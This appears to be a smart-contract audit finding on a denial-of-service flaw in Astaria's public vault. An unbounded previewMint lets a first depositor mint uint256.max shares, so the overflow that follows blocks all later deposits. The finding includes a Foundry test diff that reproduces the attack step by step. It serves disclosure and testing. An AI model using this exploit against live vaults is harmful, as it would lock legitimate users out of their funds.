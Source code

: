 -Title- 
DoS attack on a newly created public vault

-Description-
  When a public vault is created, liquidity providers can choose to use deposit() or mint() to provide liquidity. However, the previewMint function does not limit the [amount of shares](https://github.com/AstariaXYZ/astaria-gpl/blob/4b49fe993d9b807fe68b3421ee7f2fe91267c9ef/src/ERC4626-Cloned.sol#L132) that a liquidity provider can get. If the first liquidity provider get uint256.max shares, other liquidity providers will not be able to provide liquidity due to math overflow.

-PoC-
diff --git a/src/test/AstariaTest.t.sol b/src/test/AstariaTest.t.sol
index c7ce162..4726dfe 100644
--- a/src/test/AstariaTest.t.sol
+++ b/src/test/AstariaTest.t.sol
@@ -14,6 +14,7 @@
 pragma solidity =0.8.17;
 
 import "forge-std/Test.sol";
+import "forge-std/StdCheats.sol";
 
 import {Authority} from "solmate/auth/Auth.sol";
 import {FixedPointMathLib} from "solmate/utils/FixedPointMathLib.sol";
@@ -36,7 +37,7 @@ import {Strings2} from "./utils/Strings2.sol";
 import "./TestHelpers.t.sol";
 import {OrderParameters} from "seaport/lib/ConsiderationStructs.sol";
 
-contract AstariaTest is TestHelpers {
+contract AstariaTest is StdCheats, TestHelpers {
   using FixedPointMathLib for uint256;
   using CollateralLookup for address;
   using SafeCastLib for uint256;
@@ -44,6 +45,44 @@ contract AstariaTest is TestHelpers {
   event NonceUpdated(uint256 nonce);
   event VaultShutdown();
 
+  function testBlockDeposit() external {
+    // 0. setup roles
+    address user = _getSigner("user");
+    deal(address(WETH9), user, 100 ether);
+    address attacker = _getSigner("attacker");
+    deal(address(WETH9), attacker, 100 ether);
+    // 1. create a new vault
+    address publicVaultAddr = _createPublicVault({
+      epochLength: 10 days, // 10 days
+      strategist: strategistTwo,
+      delegate: strategistOne
+    });
+    PublicVault publicVault = PublicVault(publicVaultAddr);
+    // check no minted vault token
+    assertEq(0, publicVault.totalSupply());
+    // 2. attacker is the first depositor to get the max mint amount shares
+    uint256 attackAmount = type(uint256).max;
+    vm.startPrank(attacker);
+    uint256 amount = publicVault.previewMint(attackAmount);
+    assertEq(amount, 10 ether);
+    ERC20(WETH9).approve(publicVaultAddr, amount);
+    publicVault.mint(attackAmount, attacker);
+    vm.stopPrank();
+    // 3. normal user cannot deposit
+    vm.startPrank(user);
+    ERC20(WETH9).approve(publicVaultAddr, amount);
+    uint256 shares = publicVault.deposit(amount, user);
+    uint256 userBalance = publicVault.balanceOf(user);
+    assertEq(shares, userBalance, "wrong share balance");
+    vm.stopPrank();
+  }
+
+  function _getSigner(string memory name) internal returns (address) {
+    address user = makeAddr(name);
+    vm.deal(user, 100 ether);
+    return user;
+  }
+
   function testFeesExample() public {
     uint256 amountOwedToLender = getAmountOwedToLender(15e17, 10e18, 14 days);
     Fees memory fees = getFeesForLiquidation(
